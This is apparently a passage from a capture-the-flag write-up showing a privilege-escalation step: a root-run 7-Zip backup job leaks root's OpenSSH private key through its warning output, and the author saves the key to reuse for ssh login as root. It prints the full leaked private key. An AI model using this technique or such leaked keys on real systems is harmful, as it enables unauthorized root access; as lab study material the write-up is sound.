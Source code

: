 ```cmdbash


WARNING: No more files
b3BlbnNzaC1rZXktdjEAAAAABG5vbmUAAAAEbm9uZQAAAAAAAAABAAAAMwAAAAtzc2gtZW


WARNING: No more files
QyNTUxOQAAACC20mOr6LAHUMxon+edz07Q7B9rH01mXhQyxpqjIa6g3QAAAJAfwyJCH8Mi


WARNING: No more files
QgAAAAtzc2gtZWQyNTUxOQAAACC20mOr6LAHUMxon+edz07Q7B9rH01mXhQyxpqjIa6g3Q


WARNING: No more files
AAAEC63P+5DvKwuQtE4YOD4IEeqfSPszxqIL1Wx1IT31xsmrbSY6vosAdQzGif553PTtDs


WARNING: No more files
H2sfTWZeFDLGmqMhrqDdAAAACnJvb3RAdXNhZ2UBAgM=


WARNING: No more files
-----END OPENSSH PRIVATE KEY-----

2984 folders, 17973 files, 113885261 bytes (109 MiB)

Updating archive: /var/backups/project.zip

Items to compress: 20957

                                                                               
Files read from disk: 17973
Archive size: 54841836 bytes (53 MiB)

Scan WARNINGS for files and folders:

-----BEGIN OPENSSH PRIVATE KEY----- : No more files
b3BlbnNzaC1rZXktdjEAAAAABG5vbmUAAAAEbm9uZQAAAAAAAAABAAAAMwAAAAtzc2gtZW : No more files
QyNTUxOQAAACC20mOr6LAHUMxon+edz07Q7B9rH01mXhQyxpqjIa6g3QAAAJAfwyJCH8Mi : No more files
QgAAAAtzc2gtZWQyNTUxOQAAACC20mOr6LAHUMxon+edz07Q7B9rH01mXhQyxpqjIa6g3Q : No more files
AAAEC63P+5DvKwuQtE4YOD4IEeqfSPszxqIL1Wx1IT31xsmrbSY6vosAdQzGif553PTtDs : No more files
H2sfTWZeFDLGmqMhrqDdAAAACnJvb3RAdXNhZ2UBAgM= : No more files
-----END OPENSSH PRIVATE KEY----- : No more files
----------------
Scan WARNINGS: 7
```


And I see root's id_rsa in the output, so I will write it into a file and ssh as root:

```bash
❯ cat id_rsa
───────┬────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────
       │ File: id_rsa
───────┼────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────
   1   │ -----BEGIN OPENSSH PRIVATE KEY-----
   2   │ b3BlbnNzaC1rZXktdjEAAAAABG5vbmUAAAAEbm9uZQAAAAAAAAABAAAAMwAAAAtzc2gtZW
   3   │ QyNTUxOQAAACC20mOr6LAHUMxon+edz07Q7B9rH01mXhQyxpqjIa6g3QAAAJAfwyJCH8Mi
   4   │ QgAAAAtzc2gtZWQyNTUxOQAAACC20mOr6LAHUMxon+edz07Q7B9rH01mXhQyxpqjIa6g3Q
   5   │ AAAEC63P+5DvKwuQtE4YOD4IEeqfSPszxqIL1Wx1IT31xsmrbSY6vosAdQzGif553PTtDs
   6   │ H2sfTWZeFDLGmqMhrqDdAAAACnJvb3RAdXNhZ2UBAgM=
```